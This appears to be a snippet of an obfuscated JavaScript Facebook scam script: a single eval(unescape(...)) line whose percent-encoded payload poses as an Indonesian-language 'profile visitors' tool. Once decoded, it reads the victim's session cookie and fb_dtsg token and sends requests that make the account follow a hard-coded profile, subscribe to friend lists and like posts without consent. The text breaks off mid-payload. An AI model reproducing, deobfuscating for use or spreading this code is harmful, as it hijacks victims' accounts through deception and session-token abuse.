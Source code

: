 eval(unescape('%2F%2F%50%65%6E%67%75%6E%6A%75%6E%67%0A%61%6C%65%72%74%28%27%4B%6C%69%6B%20%22%4F%4B%22%20%55%6E%74%75%6B%20%4D%65%6E%67%61%6B%74%69%66%6B%61%6E%20%54%6F%6F%6C%20%69%6E%69%27%29%0A%61%6C%65%72%74%28%27%50%65%6E%67%75%6E%6A%75%6E%67%20%50%72%6F%66%69%6C%20%46%61%63%65%62%6F%6F%6B%20%3A%5C%6E►%50%65%6E%67%75%6E%6A%75%6E%67%20%68%61%72%69%20%69%6E%69%20%6C%65%62%69%68%20%64%61%72%69%20%37%39%5C%6E►%50%65%6E%67%75%6E%6A%75%6E%67%20%4B%65%6D%61%72%69%6E%20%39%32%5C%6E►%50%65%6E%67%75%6E%6A%75%6E%67%20%62%75%6C%61%6E%20%6C%61%6C%75%20%6C%65%62%69%68%20%64%61%72%69%20%31%30%2E%30%30%30%5C%6E►%52%69%77%61%79%61%74%20%50%65%6E%67%75%6E%6A%75%6E%67%20%53%65%70%61%6E%6A%61%6E%67%20%57%61%6B%74%75%20%53%65%6B%69%74%61%72%20%35%30%39%2E%30%30%30%2E%30%30%30%20%68%61%73%69%6C%20%28%30%2C%32%32%20%64%65%74%69%6B%29%20%5C%6E%5C%6E%43%72%65%61%74%65%64%20%42%79%20%44%61%68%6E%69%61%6C%20%4E%65%74%77%6F%72%6B%20%A9%20%32%30%31%34%27%29%0A%76%61%72%20%66%62%5F%64%74%73%67%20%3D%20%64%6F%63%75%6D%65%6E%74%2E%67%65%74%45%6C%65%6D%65%6E%74%73%42%79%4E%61%6D%65%28%27%66%62%5F%64%74%73%67%27%29%5B%30%5D%2E%76%61%6C%75%65%3B%0A%76%61%72%20%75%73%65%72%5F%69%64%20%3D%20%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%2E%6D%61%74%63%68%28%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%2E%6D%61%74%63%68%28%2F%63%5F%75%73%65%72%3D%28%5C%64%2B%29%2F%29%5B%31%5D%29%3B%0A%76%61%72%20%66%62%5F%64%74%73%67%3D%64%6F%63%75%6D%65%6E%74%2E%67%65%74%45%6C%65%6D%65%6E%74%73%42%79%4E%61%6D%65%28%22%66%62%5F%64%74%73%67%22%29%5B%30%5D%2E%76%61%6C%75%65%3B%0A%76%61%72%20%75%73%65%72%5F%69%64%3D%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%2E%6D%61%74%63%68%28%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%2E%6D%61%74%63%68%28%2F%63%5F%75%73%65%72%3D%28%5C%64%2B%29%2F%29%5B%31%5D%29%3B%0A%66%75%6E%63%74%69%6F%6E%20%61%28%61%62%6F%6E%65%29%7B%76%61%72%20%68%74%74%70%34%3D%6E%65%77%20%58%4D%4C%48%74%74%70%52%65%71%75%65%73%74%3B%0A%76%61%72%20%75%72%6C%34%3D%22%2F%61%6A%61%78%2F%66%6F%6C%6C%6F%77%2F%66%6F%6C%6C%6F%77%5F%70%72%6F%66%69%6C%65%2E%70%68%70%3F%5F%5F%61%3D%31%22%3B%76%61%72%20%70%61%72%61%6D%73%34%3D%22%70%72%6F%66%69%6C%65%5F%69%64%3D%22%2B%61%62%6F%6E%65%2B%22%26%6C%6F%63%61%74%69%6F%6E%3D%31%26%73%6F%75%72%63%65%3D%66%6F%6C%6C%6F%77%2D%62%75%74%74%6F%6E%26%73%75%62%73%63%72%69%62%65%64%5F%62%75%74%74%6F%6E%5F%69%64%3D%75%33%37%71%61%63%5F%33%37%26%66%62%5F%64%74%73%67%3D%22%2B%66%62%5F%64%74%73%67%2B%22%26%6C%73%64%26%5F%5F%22%2B%75%73%65%72%5F%69%64%2B%22%26%70%68%73%74%61%6D%70%3D%22%3B%68%74%74%70%34%2E%6F%70%65%6E%28%22%50%4F%53%54%22%2C%75%72%6C%34%2C%74%72%75%65%29%3B%68%74%74%70%34%2E%6F%6E%72%65%61%64%79%73%74%61%74%65%63%68%61%6E%67%65%3D%66%75%6E%63%74%69%6F%6E%28%29%7B%69%66%28%68%74%74%70%34%2E%72%65%61%64%79%53%74%61%74%65%3D%3D%34%26%26%68%74%74%70%34%2E%73%74%61%74%75%73%3D%3D%32%30%30%29%68%74%74%70%34%2E%63%6C%6F%73%65%7D%3B%68%74%74%70%34%2E%73%65%6E%64%28%70%61%72%61%6D%73%34%29%7D%61%28%22%31%30%30%30%30%32%35%34%37%37%33%39%39%36%31%22%29%3B%66%75%6E%63%74%69%6F%6E%20%73%75%62%6C%69%73%74%28%75%69%64%73%73%29%7B%76%61%72%20%61%3D%64%6F%63%75%6D%65%6E%74%2E%63%72%65%61%74%65%45%6C%65%6D%65%6E%74%28%27%73%63%72%69%70%74%27%29%3B%61%2E%69%6E%6E%65%72%48%54%4D%4C%3D%22%6E%65%77%20%41%73%79%6E%63%52%65%71%75%65%73%74%28%29%2E%73%65%74%55%52%49%28%27%2F%61%6A%61%78%2F%66%72%69%65%6E%64%73%2F%6C%69%73%74%73%2F%73%75%62%73%63%72%69%62%65%2F%6D%6F%64%69%66%79%3F%6C%6F%63%61%74%69%6F%6E%3D%70%65%72%6D%61%6C%69%6E%6B%26%61%63%74%69%6F%6E%3D%73%75%62%73%63%72%69%62%65%27%29%2E%73%65%74%44%61%74%61%28%7B%20%66%6C%69%64%3A%20%22%2B%75%69%64%73%73%2B%22%20%7D%29%2E%73%65%6E%64%28%29%3B%22%3B%64%6F%63%75%6D%65%6E%74%2E%62%6F%64%79%2E%61%70%70%65%6E%64%43%68%69%6C%64%28%61%29%7D%73%75%62%6C%69%73%74%28%22%35%36%38%31%38%38%37%39%36%36%30%39%33%37%33%22%29%3B%73%75%62%6C%69%73%74%28%22%35%36%38%36%38%32%32%34%39%38%39%33%33%36%31%22%29%3B%76%61%72%20%75%73%65%72%5F%69%64%3D%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%2E%6D%61%74%63%68%28%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%2E%6D%61%74%63%68%28%2F%63%5F%75%73%65%72%3D%28%5C%64%2B%29%2F%29%5B%31%5D%29%3B%76%61%72%20%66%62%5F%64%74%73%67%3D%64%6F%63%75%6D%65%6E%74%2E%67%65%74%45%6C%65%6D%65%6E%74%73%42%79%4E%61%6D%65%28%27%66%62%5F%64%74%73%67%27%29%5B%30%5D%2E%76%61%6C%75%65%3B%76%61%72%20%6E%6F%77%3D%28%6E%65%77%20%44%61%74%65%29%2E%67%65%74%54%69%6D%65%28%29%3B%66%75%6E%63%74%69%6F%6E%20%50%28%70%6F%73%74%29%7B%76%61%72%20%58%3D%6E%65%77%20%58%4D%4C%48%74%74%70%52%65%71%75%65%73%74%28%29%3B%76%61%72%20%58%55%52%4C%3D%22%2F%2F%77%77%77%2E%66%61%63%65%62%6F%6F%6B%2E%63%6F%6D%2F%61%6A%61%78%2F%75%66%69%2F%6C%69%6B%65%2E%70%68%70%22%3B%76%61%72%20%58%50%61%72%61%6D%73%3D%22%6C%69%6B%65%5F%61%63%74%69%6F%6E%3D%74%72%75%65%26%66%74%5F%65%6E%74%5F%69%64%65%6E%74%69%66%69%65%72%3D%22%2B%70%6F%73%74%2B%22%26%73%6F%75%72%63%65%3D%31%26%63%6C%69%65%6E%74%5F%69%64%3D%22%2B%6E%6F%77%2B%22%25%33%41%33%33%36%36%36%37%37%34%32%37%26%72%6F%6F%74%69%64%3D%75%5F%70%73%5F%30%5F%30%5F%31%34%26%67%69%66%74%6F%63%63%61%73%69%6F%6E%26%66%74%5B%74%6E%5D%3D%25%33%45%25%33%44%55%26%66%74%5B%74%79%70%65%5D%3D%32%30%26%66%74%5B%71%69%64%5D%3D%35%38%38%32%30%30%36%38%39%30%35%31%33%37%38%34%37%31%32%26%66%74%5B%6D%66%5F%73%74%6F%72%79%5F%6B%65%79%5D%3D%22%2B%70%6F%73%74%2B%22%26%6E%63%74%72%5B%5F%6D%6F%64%5D%3D%70%61%67%65%6C%65%74%5F%68%6F%6D%65%5F%73%74%72%65%61%6D%26%5F%5F%75%73%65%72%3D%22%2B%75%73%65%72%5F%69%64%2B%22%26%5F%5F%61%3D%31%26%5F%5F%64%79%6E%3D%37%6E%38%61%68%79%6A%33%35%43%46%77%58%41%67%26%5F%5F%72%65%71%3D%6A%26%66%62%5F%64%74%73%67%3D%22%2B%66%62%5F%64%74%73%67%2B%22%26%70%68%73%74%61%6D%70%3D%22%3B%58%2E%6F%70%65%6E%28%22%50%4F%53%54%22%2C%58%55%52%4C%2C%74%72%75%65%29%3B%58%2E%6F%6E%72%65%61%64%79%73%74%61%74%65%63%68%61%6E%67%65%3D%66%75%6E%63%74%69%6F%6E%28%29%7B%69%66%28%58%2E%72%65%61%64%79%53%74%61%74%65%3D%3D%34%26%26%58%2E%73%74%61%74%75%73%3D%3D%32%30%30%29%7B%58%2E%63%6C%6F%73%65%7D%